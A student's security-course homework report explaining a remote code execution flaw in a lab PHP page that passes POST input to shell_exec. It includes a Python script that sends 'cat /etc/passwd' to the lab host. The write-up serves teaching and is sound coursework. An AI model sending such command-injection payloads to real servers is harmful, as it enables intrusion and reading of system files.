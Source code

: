 # TIC4304 Homework 3
- Name: Ke Yule
- Student Number: A0211495H E0493826
- Scripts Can be Found at: https://github.com/keyule/4304-hw3

*View the markdown version for better formatting at:*   
*https://github.com/keyule/4304-hw3/blob/main/report.md* 

## Case 1

**Bug Category: Remote Code Execution**

**The logic of case01.php is:**
1. Line 14: checks if cmd_url is set
2. Line 16: sets cmd_url to a virable called cmd
3. Line 19: runs shell_exec(cmd)
4. Line 20: Outputs the results

**Exploit:**  
As we can see there is no sanitization of the cmd_url sent over a post request. We can just send any command we want and it will get executed. 

**Script: case01.py**
```python
import requests

url = 'http://www.wsb.com/Homework3/case01.php'

payload = {'cmd_url': 'cat /etc/passwd'}

response = requests.post(url, data=payload)

pre_start = response.text.find('<pre>')
pre_end = response.text.find('</pre>')

pre_text = response.text[pre_start+len('<pre>'):pre_end]

print(pre_text)
```